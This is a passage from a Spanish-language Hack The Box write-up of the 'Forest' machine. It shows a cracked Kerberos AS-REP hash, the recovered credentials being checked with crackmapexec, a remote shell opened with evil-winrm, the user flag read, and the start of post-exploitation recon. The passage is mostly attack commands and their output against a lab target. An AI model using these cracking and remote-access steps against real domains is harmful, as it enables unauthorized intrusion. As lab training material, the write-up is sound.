 ```plaintext
❯ john --w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:05 DONE (2022-08-28 00:48) 0.1733g/s 708103p/s 708103c/s 708103C/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Hemos conseguido crackear el hash, las credenciales quedarían así "svc-alfresco:s3rvice", vamos a comprobar si son validas realmente, lo haremos en `evil-winrm` y `smb`.

```plaintext
❯ crackmapexec smb 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
❯ crackmapexec winrm 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Las credenciales son validas para `smb` y `evil-winrm`, sin embargo, solo tenemos "Pwn3d!" en `evil-winrm` por lo que solo podremos conseguir una consola mediante `evil-winrm`. Vamos a conectarnos a la máquina víctima usando `evil-winrm`.

```plaintext
❯ evil-winrm -i 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
```

Ya tenemos acceso a la máquina víctima mediante el uso de `evil-winrm`, vamos a leer la flag del usuario.

```plaintext
> type C:\Users\svc-alfresco\Desktop\user.txt
0b0560aa2d00b065****************
```

# Post-explotación

Vamos a realizar un pequeño reconocimiento manual.

```plaintext
> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
> net user svc-alfresco
User name                    svc-alfresco
Full Name                    svc-alfresco
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

```